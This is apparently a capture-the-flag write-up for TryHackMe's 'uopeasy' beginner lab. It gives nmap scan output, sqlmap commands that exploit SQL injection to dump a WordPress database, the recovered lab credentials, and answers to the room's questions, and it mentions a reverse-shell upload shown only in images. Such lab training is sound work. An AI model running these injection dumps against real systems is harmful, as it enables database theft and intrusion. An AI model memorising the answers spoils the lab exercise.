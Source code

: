 ```yaml
---
title: "uopeasy - TryHackMe"
author: Ludovic COULON
date: 2020-07-18
hero: ./images/hero.jpg
excerpt: "Writeup for the uopeasy university of Portsmouth's beginner room"
---
```


[TryHackMe | uopeasy](https://tryhackme.com/room/uopeasy)

University of Portsmouth's beginner room.

In this set of tasks you will learn the following:

- Basic SQL injection
- Use of reconnaissance tool
- nmap
- WordPress RCE and reverse shells
- Cracking the hash (John the ripper / hashcat)
- Possibly Nikto
- Burp Suite or dirbuster

The main goal here is to learn as much as possible. Make sure you are connected to our network using your [OpenVPN configuration file](https://tryhackme.com/access).

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.180.236
```

```bash
80/tcp   open  http     syn-ack Apache httpd 2.4.7 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).

443/tcp  open  ssl/http syn-ack Apache httpd
|_http-favicon: Unknown favicon MD5: A8B5AD142FFA4621B3DBF67BDECA483A
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-02-17T03:30:05
| Not valid after:  2025-02-14T03:30:05
| MD5:   ebd4 a980 6e51 1b13 769e d4b1 28f9 71dd
| SHA-1: 6297 03e9 f83b 06e7 d50d 3f4b 5bae 38c9 7665 cc64
| -----BEGIN CERTIFICATE-----
| MIIBqzCCARQCCQDg5heFLm8t8jANBgkqhkiG9w0BAQUFADAaMRgwFgYDVQQDDA93
| d3cuZXhhbXBsZS5jb20wHhcNMTUwMjE3MDMzMDA1WhcNMjUwMjE0MDMzMDA1WjAa
| MRgwFgYDVQQDDA93d3cuZXhhbXBsZS5jb20wgZ8wDQYJKoZIhvcNAQEBBQADgY0A
| MIGJAoGBANFjfgmsBCGKWfdqCYZnY2mKvtUnYFtenVjtqdReduE12yavSQZuWAi2
| jIpCUMwG7RG3QAwyzCoMWAzF/tZimI8uNL8G9m84l/wQAbTPMPJTgJXpwY0/9IRc
| hdqtpFoVS251qA9AvPeqMv/hV+rKVAkYcONB6Q8Or8S6ifkEBAZbAgMBAAEwDQYJ
| KoZIhvcNAQEFBQADgYEAQ3Kt0nVDLMkAv9/k1bt6KaM06cvTtiekgu0ugxA0TNXC
| FNIBqu/Fasog43FRLuUtAtNCNMqI5QAAVPatQPk1QmVoE+IxbvxldrKykZk9oXkj
| 5rbE43BAkxyiMvuNsZh7W2Lzx14tlA84c8B4Y1S0CqoVLpaJaCQ5MtVMSya3wAM=
|_-----END CERTIFICATE-----

8080/tcp open  http     syn-ack Apache httpd
|_http-favicon: Unknown favicon MD5: A8B5AD142FFA4621B3DBF67BDECA483A
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
```

![https://imgur.com/9SK08g2.png](https://imgur.com/9SK08g2.png)

![https://imgur.com/G7Wb80W.png](https://imgur.com/G7Wb80W.png)

### #1 Deploy the machine and connect to **our network.**

```bash
No awnser needed
```

### #2 Do some basic reconnaissance on the website. What pages can you view? What ports are open? What can you access?

```bash
No awnser needed
```

### #3 You should have found some additional pages on different ports. What service does the site most likely use for this page?

```bash
mysql
```

### #4 Using the fact that this site has this service running, how can you exploit it? Do not use SQLMap yet..

```bash
Since this is some php room let's say that is SQLi (SQL Injection)
```

```bash
SQLi
```

### #5 Try and return 1 on the page by entering certain characters into the form.

```bash
No awnser needed
```

### #6 Using SQL injection, can you extract the username and password for this form? You may need the help of Burp's intruder function OR SQLMap.

```bash
No awnser needed
```

### #7 What was the username?

Dump the database using sqlmap

```bash
➜  ~ sqlmap -u http://10.10.180.236/login.php --forms -dbs
```

![https://imgur.com/9yukJFN.png](https://imgur.com/9yukJFN.png)

![https://imgur.com/lu0ABlM.png](https://imgur.com/lu0ABlM.png)

Let's see the content of the wordpress8080 table

```bash
➜  ~ sqlmap -u http://10.10.180.236/login.php –forms –dbs –dump-all -D wordpress8080
```

![https://imgur.com/ucY2JNZ.png](https://imgur.com/ucY2JNZ.png)

Credentials retrieved

```bash
Username : admin
Password : SuperSecretPassword
```

### #8 What was the password?

```bash
SuperSecretPassword
```

### #9 Now you have these credentials, where else on the site can you go? Using the credentials you have and another part of the site, login and try to execute remote commands on the server.

```bash
No awnser needed
```

### #10 Can you get a reverse shell back to your local machine?

```bash
No awnser needed
```

### #11 Can you crack anyones password? Using the very popular rockyou.txt

```bash
No awnser needed
```

### #12 What is the final cracked hash password for the user "user"?

Let's upload the reverse shell on the wordpress blog

![https://imgur.com/z6QQkJF.png](https://imgur.com/z6QQkJF.png)

![https://imgur.com/AIcHLNM.png](https://imgur.com/AIcHLNM.png)

![https://imgur.com/9B1RXrg.png](https://imgur.com/9B1RXrg.png)

Nice we have the creds for the database let's try them 😇

![https://imgur.com/csDngND.png](https://imgur.com/csDngND.png)

![https://imgur.com/DElAc2V.png](https://imgur.com/DElAc2V.png)

```bash
SuperSecretPassword
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://tryhackme-badges.s3.amazonaws.com/boperXD.png" alt="TryhackMeProfile" />
  </a>
</center>
